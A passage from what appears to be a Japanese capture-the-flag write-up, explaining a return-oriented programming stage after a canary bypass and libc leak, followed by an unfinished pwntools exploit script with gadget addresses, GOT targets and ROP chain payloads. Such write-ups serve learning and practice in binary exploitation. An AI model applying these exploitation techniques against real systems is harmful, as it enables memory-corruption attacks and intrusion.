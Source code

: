 ### ROP

canaryが無効化され、libc leakができましたが、簡単にROPに持ち込むことはできません。
`input_person`関数にはstringが参照渡しされています。これは`input_person`
関数からretする際のstring領域の内容は`name = _name`の時点で上書きされることを意味します。

そのため、string領域をで読み飛ばしてあげる必要があります。
これには`pop rbx ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; pop rbp`というガジェットを用いました。

## スクリプト

```py
from pwn import *

context.arch = "amd64"
context.bits = 64
context.terminal = "tmux splitw -h".split()
context.log_level = "DEBUG"

s2sh = lambda pl: b"".join([p8(int(pl[i : i + 2], 16)) for i in range(0, len(pl), 2)])
s2u64 = lambda s: u64(s.ljust(8, b"\x00"))
i2b = lambda x: f"{x}".encode()
ptr_guard = lambda pos, ptr: (pos >> 12) ^ ptr


def create_io() -> tubes.tube.tube:
    if not local:
        io: tubes.tube.tube = remote(remote_addr, int(remote_port))
    elif debug:
        if radare:
            io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
            util.proc.wait_for_debugger(util.proc.pidof(io)[0])
        else:
            io: tubes.tube.tube = gdb.debug(
                elf_name, script, env={"LD_PRELOAD": libc_name}
            )
    else:
        io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
    return io


def solve():
    global t
    sa = lambda x, y: t.sendafter(x, y)
    sla = lambda x, y: t.sendlineafter(x, y)
    # ROP
    ## cannot send [0x9, 0xa, 0x10, 0x20]
    leave = p64(0x4013A3)
    dummy_rbp = p64(0x404048 + 0x110)
    ret = p64(0x40101A)

    got_stack_chk = p64(0x404048)
    got_op_ostream_str = p64(0x404030)
    got_setbuf_P44h = p64(0x404060 + 0x44)
    got_setbuf_P48h = p64(0x404060 + 0x48)
    print_info = p64(0x004013E0)

    rop_stage = leave + b"A" * 0x108 + dummy_rbp
    rop1 = p64(elf.sym["main"]) * 3 + got_stack_chk * 3
    sla(b"name?", rop_stage + rop1)
    sla(b"you?", i2b(0))

    rop_stage = p64(elf.sym["main"]) + b"B" * 0x108 + got_setbuf_P44h
    rop1 = ret + print_info.ljust(0x10, b"\x00") + got_op_ostream_str * 3
```